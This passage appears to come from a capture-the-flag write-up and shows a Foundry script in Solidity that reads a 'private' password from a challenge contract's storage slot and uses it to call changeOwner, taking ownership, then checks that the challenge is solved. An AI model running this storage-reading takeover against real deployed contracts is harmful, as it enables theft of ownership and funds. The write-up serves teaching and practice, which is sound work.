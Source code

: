 ```solidity
    // Use interface to fetch secureShell contract
    address secureShell = ISetup(SETUP_CONTRACT).secureShell();

    // Read private password from slot 1
    bytes32 pwBytes = vm.load(secureShell, bytes32(uint256(1)));
    uint256 password = uint256(pwBytes);
    console2.log("Extracted password:", password);

    // Change ownership to our wallet
    ISecureShell(secureShell).changeOwner(password, WALLET);

    // Verify success
    require(ISetup(SETUP_CONTRACT).isSolved(), "Exploit failed");
    console2.log("Exploit succeeded!");

    vm.stopBroadcast();
}
}
```

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>
